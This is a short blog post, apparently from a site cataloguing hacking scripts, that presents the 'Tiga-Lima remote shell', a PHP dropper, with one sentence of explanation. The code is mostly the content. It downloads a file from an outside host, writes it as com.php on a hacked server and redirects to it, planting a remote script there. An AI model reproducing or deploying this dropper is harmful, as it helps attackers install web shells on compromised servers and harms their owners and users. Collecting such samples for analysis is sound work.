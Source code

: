 ```yaml
---
id: 62
title: Tiga-Lima remote shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=62
permalink: /tiga-lima-remote-shell/
categories:
  - PHP
  - Tiga-Lima
tags:
  - PHP
  - Tiga-Lima
---
```

This is a very simple script that attempts to write the contents of a remote file (presumably some sort of hack script) to a local file on the hacked server.


### Tiga-Lima remote shell source code

{% highlight php linenos %}<?php
$namafile="com.php";
$file = fopen($namafile ,'w+');
$fa=file_get_contents('http://www.aliggroup.com/upload/log.txt');
$write = fwrite ($file ,$fa);
header ("location:com.php");
?>
{% endhighlight %}